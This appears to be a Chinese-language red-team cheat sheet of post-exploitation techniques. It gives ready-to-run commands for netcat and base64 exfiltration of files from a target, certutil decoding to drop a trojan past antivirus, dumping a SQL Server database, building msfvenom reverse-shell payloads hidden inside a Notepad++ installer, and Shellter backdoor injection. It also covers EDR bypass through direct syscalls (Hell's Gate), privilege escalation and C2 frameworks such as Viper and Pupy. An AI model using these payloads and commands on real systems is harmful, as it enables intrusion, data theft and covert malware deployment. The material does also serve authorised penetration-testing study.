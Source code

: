 综合技巧
========================================

临时服务器
----------------------------------------
- python方式
	+ ``python2 - m SimpleHTTPServer``
	+ ``python3 -m http.server 8888``
- php方式
	+ ``php -S 127.0.0.2:8181 -t /www /www/app.php``

内网扫描
----------------------------------------
+ Netspy
	- 项目地址：``https://github.com/shmilylty/netspy``
	- 一款快速探测内网可达网段工具。

传输数据
----------------------------------------
- nc
	+ 连续传输两个数据包：``cat poc1.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2 | cat poc2.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2``
	+ dat文件存储数据包内容
	+ ``sed s'/.$//'`` 为去掉最后一个字节0a
	+ -u参数表示使用udp协议

文件传输
----------------------------------------

出网传输
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- nc
	- 文件传输
		+ 将B机器上的file.txt传输到A机器上
		+ ``A机器：nc -lvp 1567 > file.txt``
		+ ``B机器：nc 172.31.100.7 1567 < file.txt``
	- 目录传输
		+ ``tar -cvf – dir_name | nc -l 1567``
		+ ``nc -n 172.31.100.7 1567 | tar -xvf -``
	- 加密传输
		+ ``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
		+ ``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``

不出网文件落盘
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- python
	- 目标机器转base64
		+ ``目标机器有python：python -c 'print(__import__("base64").b64encode(open("secret.zip", "rb").read()))'``
	- 个人机器还原
		+ ``cat - > zip.txt``
		+ ``输入拿到的base64串：UEsDBBQACQAIAEZ/CE8bl，输入完成按回车``
		+ ``^C即ctrl+c``
		+ ``还原文件：base64 -d zip.txt > secret.zip``
- certutil.exe
	- 前提：具有目标机器的命令执行shell，进行木马文件落盘，躲避AV的文件下载行为的查杀
	- 示例
		::
		
			将文件hack.exe转换成签名文件（base64编码）
			certutil -f -encode d:\hack.exe d:\out.txt
			使用echo命令将out.txt文件写入目标机器，执行以下代码将文件还原成exe
			certutil -f -decode d:\out.txt d:\hack.exe

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

端口信息
-----------------------------------------
- linux
	|netstat|
	
	::
	
		+ Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
		+ Address：端口
		+ Foregin Address：对外开放，一般都为0.0.0.0：* 
		+ Program name：此端口是那个程序在用，程序挂载此端口
		+ 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
		+ 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
		+ ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

- windows
	+ ``netstat -ano``

免杀
-----------------------------------------
- 核心技术：分离执行和加密混淆等技术
- 免杀加载器
    + venom/msfvenom
        - venom生成其实是直接调用的msfvenom
        - 支持生成多平台payload，比如android、ios、linux/unix、office等等
        - 列出所有可用编码
            ``msfvemon -l encoders``
        - 裸奔木马
            ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
        - 免杀木马
            ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

        |msfvemon1|
    + Shellter动态注入工具
        - 下载地址：https://www.shellterproject.com/download/
        - Choose Operation Mode - Auto/Manual (A/M/H)
            选择模式: 自动模式自动注入后门，M高级模式，H帮助
        - PE Target：
            注入的程序.
        - Enable Stealth Mode?
            是否启用隐身模式
        - Use a listed payload or custom? (L/C/H)
            使用攻击模块列表或者自定义
        - Select payload by index:
            选择payload序号
        - SET LHOST
            设置反弹回来的IP 本机
        - SET LPORT
            设置接收反弹的端口
    + veil
- 防御EDR检测
    + 地狱之门
        - 原理：避免在用户层被EDR hook的敏感函数检测到敏感行为，利用从ntdll中读取到的系统调用号进行系统直接调用来绕过敏感API函数的hook。
        - 相关项目：https://github.com/am0nsec/HellsGate
    + 光环之门
        - 原理：
        - 相关项目：https://github.com/trickster0/TartarusGate
        - 相关资料：https://blog.vincss.net/2020/03/re011-unpack-crypter-cua-malware-netwire-bang-x64dbg.html
    + SSN系统调用地址排序
        - 原理：ntdll.dll中的特性就是所有的Zw函数是根据函数地址的大小来进行排序的，所以我们就只需要遍历所有Zw函数，记录其函数名和函数地址，最后将其按照函数地址升序排列后，每个函数的调用号就是其对应的排列顺序的索引号。

提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``

综合协同工具
-----------------------------------------
- Viper 【C&C】
	+ 项目地址：``https://github.com/FunnyWolf/Viper``，``https://www.yuque.com/vipersec``
	+ 说明：
		- Viper(炫彩蛇)是一款图形化内网渗透工具,将内网渗透过程中常用的战术及技术进行模块化及武器化.
		- Viper(炫彩蛇)集成杀软绕过,内网隧道,文件管理,命令行等基础功能.
		- Viper(炫彩蛇)当前已集成70+个模块,覆盖初始访问/持久化/权限提升/防御绕过/凭证访问/信息收集/横向移动等大类.
		- Viper(炫彩蛇)目标是帮助红队工程师提高攻击效率,简化操作,降低技术门槛.
		- Viper(炫彩蛇)支持在浏览器中运行原生msfconsole,且支持多人协作.
- PUPY【C&C】
	+ 项目地址：``https://github.com/n1nj4sec/pupy``
	+ 帮助：``https://3gstudent.github.io/Pupy%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90-Windows%E5%B9%B3%E5%8F%B0%E4%B8%8B%E7%9A%84%E5%8A%9F%E8%83%BD``
	+ Pupy是一个用 Python 编写、开源的跨平台（Windows、Linux、OSX、Android）远程管理和后期开发工具。

.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
